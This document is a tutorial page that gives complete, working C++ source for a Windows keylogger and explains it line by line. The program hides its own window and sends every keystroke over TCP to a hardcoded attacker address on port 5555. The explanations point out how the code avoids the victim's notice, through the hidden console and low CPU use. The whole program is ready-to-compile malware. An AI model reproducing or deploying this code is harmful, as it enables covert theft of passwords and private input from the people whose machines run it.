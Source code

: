 # C++ Keylogger

### Code

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
#pragma comment(lib, "Ws2_32.lib")
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>

int main() {
    ShowWindow(GetConsoleWindow(), SW_HIDE);
    char KEY;

    WSADATA WSAData;
    SOCKET server;
    SOCKADDR_IN addr;

    WSAStartup(MAKEWORD(2, 0), &WSAData);
    server = socket(AF_INET, SOCK_STREAM, 0);

    addr.sin_addr.s_addr = inet_addr("10.10.15.2");
    addr.sin_family = AF_INET;
    addr.sin_port = htons(5555);

    connect(server, (SOCKADDR *)&addr, sizeof(addr));

    while (true) {
        Sleep(10);
        for (int KEY = 0x8; KEY < 0xFF; KEY++)
        {
            if (GetAsyncKeyState(KEY) & 0x8000) {
                char buffer[2];
                buffer[0] = KEY;
                send(server, buffer, sizeof(buffer), 0);
            }
        }
    }

    closesocket(server);
    WSACleanup();
}
```

***

### Compilation

Add the flag **-lws2\_32** for the linker:

***

### Description:

The above code would send the keystrokes (only printable characters) of the user to the attacker's machine over a TCP connection, on port 5555.

On the attacker's end, we will be using netcat to setup a listener on port 5555 and receive the data sent by the keylogger program.

***

### Explanation:

#### Snippet 1:

```cpp
#define _WINSOCK_DEPRECATED_NO_WARNINGS
```

Explanation: We use winsock utilities and we do not want the compiler to complain about older functionalities used, since the below code is sufficient for our needs.

#### Snippet 2:

```cpp
#pragma comment(lib, "Ws2_32.lib")
```

Explanation: We need the Ws2\_32.lib library in order to use sockets (networking) functionality in Windows.

#### Snippet 3:

```cpp
#include <iostream>
#include <winsock2.h>
#include <stdio.h>
#include <stdlib.h>
#include <Windows.h>
```

Explanation: Here we have included some header files. These are:

* **iostream:** includes standard input/output utilities
* **winsock2.h:** includes networking utilities
* **stdio.h:** includes standard input/output utilities (needed for perror())
* **stdlib.h:** includes standard input/output utilities
* **Windows.h:** includes Windows libraries

#### Snippet 4:

```cpp
ShowWindow(GetConsoleWindow(), SW_HIDE);
```

Explanation: To hide the program window so that it's not obvious to the victim that this program is running!

#### Snippet 5:

```cpp
char KEY;
```

Explanation: This variable would hold a single key, for which we would check the status (if it's pressed or not).

#### Snippet 6:

```cpp
WSADATA WSAData;
SOCKET server;
SOCKADDR_IN addr;
```

* WSADATA: This data type (it's a struct) holds information about windows socket implementation.
* SOCKET: This data type stores the connection of the SOCKET type.
* SOCKADDR\_IN: This data type (it's a struct) holds the details of socket connection.

This must make clear what the purpose of the variables mentioned in the above snippet would be.

#### Snippet 7:

```cpp
WSAStartup(MAKEWORD(2, 0), &WSAData);
```

Explanation: Initialize usage of the winsock library (needed for opening a network connection).

#### Snippet 8:

```cpp
server = socket(AF_INET, SOCK_STREAM, 0);
```

Explanation: Set up a TCP socket. AF\_INET means address family for IPv4. SOCK\_STREAM means that we want a TCP socket.

#### Snippet 9:

```cpp
addr.sin_addr.s_addr = inet_addr("10.10.15.2");
addr.sin_family = AF_INET;
addr.sin_port = htons(5555);
```

Explanation: The above snippet would set the IP address of the target we wish to sent the data to (that would be the attacker's IP address). The port used would be 5555 and the IP address is IPv4 which is indicated by AF\_INET.

#### Snippet 10:

```cpp
connect(server, (SOCKADDR *)&addr, sizeof(addr));
```

Explanation: Connect to the previously set up target host/port.

#### Snippet 11:

```cpp
while (true) {
    Sleep(10);
    for (int KEY = 0x8; KEY < 0xFF; KEY++)
    {
        if (GetAsyncKeyState(KEY) & 0x8000) {
            char buffer[2];
            buffer[0] = KEY;
            send(server, buffer, sizeof(buffer), 0);
        }
    }
}
```

Explanation: The above snippet would run an infinite loop and and check if any of the keys in the range (0x8 to 0xFF). Then the GetAsyncKeyState function checks if that key is in pressed state (check the 2nd point of the note below). If the key we checked for is in pressed state, send the pressed key's ASCII value to the attacker over the established TCP socket.

Note: 1. If you are wondering why 0x1-0x7 are not included, check the list of virtual keycodes here. The range of keycodes from 0x1-0x7 are uninteresting from a keylogger's perspective and that's why they are ignored! If you wish to log only the printable characters, you can further narrow down the range of the loop.

As per the GetAsyncKeyState function's documentation: If the function succeeds, the return value specifies whether the key was pressed since the last call to GetAsyncKeyState, and whether the key is currently up or down. If the most significant bit is set, the key is down, and if the least significant bit is set, the key was pressed after the previous call to GetAsyncKeyState. However, you should not rely on this last behavior

So if the most significant bit was set, the key is currently pressed! And that's what & 0x8000 does. It checks if the MSB is set to 1.

If you notice, there's a call to Sleep function as well. That would prevent this keylogger to consume a lot of CPU cycles and thus prevent spiking the CPU usage, which could slow down the machine and even give an indication to the victim that something unusual is wrong on!

#### Snippet 12:

```cpp
closesocket(server);
```

Explanation: Close the socket.

#### Snippet 13:

```cpp
WSACleanup();
```

Explanation: Clean up the Winsock library components.

***
